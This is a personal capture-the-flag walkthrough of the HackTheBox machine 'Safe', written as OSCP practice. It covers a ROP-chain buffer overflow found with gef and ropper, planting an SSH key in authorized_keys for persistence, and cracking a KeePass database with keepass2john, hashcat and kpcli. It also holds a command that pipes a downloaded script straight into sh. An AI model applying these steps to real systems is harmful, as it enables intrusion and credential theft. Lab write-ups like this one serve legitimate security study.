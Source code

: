 # Safe Helpthrough
Name: Safe
Date:  28/10/2022
Difficulty:  Easy - probably not though
Goals:  OSCP prep, ROP chain (re?)discovery, 
Learnt:
- alot about pwntools, it make python more intuitive and less clunky and verbose 10/10 
	- context and tmux new-windowing in python scripts! 
	- recvuntil() - remove if over network
	- sendline 
	- remote() + interactive()
	- gdb.debug
- scp wildcard user directory dumping 
- wtf is keepass
- objdump like it is shooting star into my brain
Source: [Ippsec](https://www.youtube.com/watch?v=CO_g3wtC7rk)


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Apex/Screenshots/ping.png)

I run masscan to rapid port scan so I already found the port 1337 tcp, but page isn't working for me...
![](notsoleet.png)
using `curl` I got back:
![](recievedhttp09.png)
with `nc`
![](cmdinjection.png)
Also no [shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
![](alsonoshellshock.png)

## Exploit

My feroxbuster content discovery on port 80 found /myapp.

![1000](myappfile.png)
Try to test my radare2, before defaulting to ghidra
![](r2-dtheapp.png)

Unlike ghidra we dont have a clear indicator of the buffer, but the size is the 0x70 and the sub opcode is subtracting 112 from the rsp thereby creating that space for the buffer.
![1000](bufferoverflow.png)
Decided that seeing as if is a initial buffer overflow. I will paused at 8:42 and finish this without the aid, because I do not need it.

Learnt about gef wonders, with a built in pattern creat and pattern search. Although 
[guyinatuxedo](https://guyinatuxedo.github.io/index2.html) and [gef commands](https://hugsy.github.io/gef/commands/aliases/) weere useful given my time constraints these day I returned to the video. Instead I use gefs builtin functions and then learn alot about pwntools. I got stuck because I thought it was a bufferoverflow and not a ROP chain, meaning that instead returning back the stack to call my shellcode we are hijacking another function call.

In short, try **NOT** to rely on this version of GEF: whenever possible you might prefer using "normal" GEF with its remote debugging functionalities. This version of GEF should be your last resort for having a descent debugging experience. https://github.com/hugsy/gef-legacy - for python2 gef, but with  `sudo wget -q -O-https://github.com/hugsy/gef/raw/main/scripts/gef-extras.sh | sh` for ropper

Return Oriented Programming (ROP) is using small bits of code that exist in the program to take little steps towards getting what you want to happen.

```bash
gef> r # run binary
# 
gef> pattern create <size>
# copy and paste 
r <paste pattern at correct stage of the program>
```
![](eipenum.png)
```
# look at *sp register address 
gef> pattern search $string_in_rsp
# for rop chaining you need the address of function call found in an disassembler
# how many arguments does the function call take?
```
![](gefisgreat.png)
```bash
gef info functions
# There are many way to go about using the function calls avaliable
# be mindful of:
# what any of the functions does
# arguments amount and type of that function
# whether the function is linked or not
# what address is it called from
gef> b *$function_call_address # requires *
# beware Arch!
# x64 order of execution of variables - rdi rsi rsx rcx r8 r9
x/s $register(s)_of_loaded_variables # the parametre of function call
# Now find away to hijack with your own string
gef> ropper --search r$num # for legacy-gef or gef-extras
ropper -f $binary | grep $register_of_the_function # from commandline
objdump -D myapp  | grep -i system
objdump -D myapp  | grep -i test
objdump -D myapp  | grep -i gets
``` 

Ghidra - blue linked function not in binary

![](objdumpiswow.png)

![](ropper.png)

The ippsec jumping around version did not work for me I instead made minor modifications to [Method 2: Write /bin/sh](https://0xdf.gitlab.io/2019/10/26/htb-safe.html), which similarly to the ippsec method wrote /bin/sh to be executed, but use  `gets` as ROP call and `system` call rather hijacking system and therefore need `rdi`  instead `r13` registers and use `gets` to read /bin/sh.

## Foothold

![](rev.png)

![](userhome.png)

```bash
ssh-keygen -f safe
chmod 600 safe
SAFEPUB=$(cat safe.pub)
# copy and paste to:
echo "$SAFEPUB" > /home/user/.ssh/authorized_keys # don't use env variable just for write-up
```

![](useruserssh.png)

## PrivEsc
In the folder is .kdbx file, which is [KeePass](https://en.wikipedia.org/wiki/KeePass). Dumping the user folder and use `keepass2john` of the `MyPasswords.kdbx` and

```bash
scp -i safe user@$ip:* 
for file in $(ls $setofkeyfiles); do keepass2john -k $img db.kdbx | sed "s/db/$file/g"; done >> keyfiles_john
hashcat -m 13400 -O keyfiles_john /usr/share/rockyou.txt --user
# Root password
```

0xDF: *"Once one cracks, I can kill it as the others won’t"* as it only needs one. Requires kpcli

```bash
kpcli --key IMG_0547.JPG --kdb MyPasswords.kdbx
ls
show 0 # ippsec
show -f R # 0xdf
```
and the password is in here
![](root.png)